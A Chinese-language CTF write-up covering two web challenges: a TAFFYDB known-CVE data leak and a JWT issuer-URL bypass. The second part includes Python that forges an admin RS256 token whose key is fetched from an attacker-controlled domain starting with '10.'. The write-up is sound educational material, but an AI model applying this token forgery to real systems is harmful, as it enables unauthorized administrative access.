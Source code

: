 ### web - jsonstore
这个题的后端是TAFFYDB，这是一个有[已知CVE](https://security.snyk.io/vuln/SNYK-JS-TAFFYDB-2992450)，但无人维护的数据库模块。

TAFFY存储的都是json对象，本来的功能是我们提供一个子json，TAFFY返回包含子json的所有条目。但一方面主键格式完全可以被猜到，另一方面还有个内置选项/后门可以忽略主键以外的所有属性，可以导致获取数据库任意条目。直接用CVE提供的poc就能打通了

### web - keyserver
最费精力的一集。

这个题远端使用RS256的jwt验证我们的登录，但是考虑了`jwt`的issuer字段，即会主动请求外部的PEM公钥文件。但是限制了公钥Host必须以`10.`（内部地址）开头。然后会用fetch拿到公钥文件（顺便一提nodejs的fetch是不支持file协议的）

```js
let issuer;
try {
    issuer = new URL(header.issuer);
} catch (e) {
    return res.status(401).send("Failed to parse URL");
}

if (!issuer.host.startsWith("10.")) {
    return res.status(401).send("Invalid IP address");
}

// fetch public key from local key server
let publicKey;
try {
    publicKey = await (await fetch(header.issuer)).text();
} catch (e) {
    return res.status(401).send("Failed to get public key");
}
```

伪造JWT和对应公钥很简单：

```python
if not os.path.isfile('tempkey'):
    rsa_key = generate(1024)
    priv_key = rsa_key.export_key()
    pub_key = rsa_key.public_key().export_key()

    with open('tempkey', 'wb') as fp:
        fp.write(priv_key)

    with open('tempkey.pub', 'wb') as fp:
        fp.write(pub_key)
else:
    with open('tempkey', 'rb') as fp:
        priv_key = fp.read()

    with open('tempkey.pub', 'rb') as fp:
        pub_key = fp.read()

HOST = 'http://34.132.166.199:5250/admin'

# Need a controlable subdomain
res_jwt = jwt.encode({'user': 'admin'}, priv_key, algorithm='RS256',
            headers={
                "issuer": "http://10.test12345.strangled.net/K4n"
            })
```
